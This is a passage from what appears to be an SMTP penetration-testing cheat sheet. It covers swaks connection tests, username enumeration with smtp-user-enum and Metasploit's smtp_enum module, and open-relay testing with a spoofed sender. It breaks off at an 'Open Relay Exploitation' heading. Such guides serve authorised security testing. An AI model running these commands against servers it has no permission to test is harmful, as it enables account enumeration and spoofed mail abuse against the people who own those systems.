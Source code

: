 Alternative:

```bash
swaks --to test@target.com --server <TARGET_IP> --ehlo kali
```

---

## 🧑‍💻 2. User Enumeration

### 🔹 2.1 Using smtp-user-enum

Install:

```bash
sudo apt install smtp-user-enum
```

Usage:

```bash
smtp-user-enum -M VRFY -U users.txt -t <TARGET_IP>
smtp-user-enum -M EXPN -U users.txt -t <TARGET_IP>
```

Use targeted or common usernames in `users.txt`.

---

### 🔹 2.2 Metasploit Alternative

```bash
msfconsole
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS <TARGET_IP>
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
run
```

---

## 📤 3. Open Relay Testing

Test with `swaks`:

```bash
swaks --to victim@externaldomain.com --from attacker@spoofed.com --server <TARGET_IP>
```

If message is accepted with `250 OK`, the server is likely an **open mail relay**.

---

## 🧱 4. Exploiting Misconfigurations

### 🔹 4.1 Open Relay Exploitation
